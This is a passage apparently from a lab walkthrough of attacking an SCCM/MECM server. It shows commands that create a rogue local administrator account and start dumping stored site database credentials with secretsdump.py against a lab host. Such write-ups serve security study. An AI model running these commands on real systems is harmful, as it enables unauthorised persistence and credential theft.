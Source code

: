 ![get_system_on_mecm.png](/assets/blog/SCCM/get_system_on_mecm.png)

- Ok let's add a user to MECM local admin and try to retrieve and decipher the DB stored credentials

```
ps> net user myadmin myadminpass /add
The command completed successfully.

ps> net localgroup administrators myadmin /add
The command completed successfully.
```

## cred 5 - Site Database Credentials

- Details here : [Cred-5](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/CRED/CRED-5/cred-5_description.md)
- At this step we have a local admin account on the MECM computer, let's retrieve all the stored credentials in the database
- First we will retrieve the `MECM$` ntlm hash

```bash
secretsdump.py MECM/myadmin:'myadminpass'@192.168.33.11
```
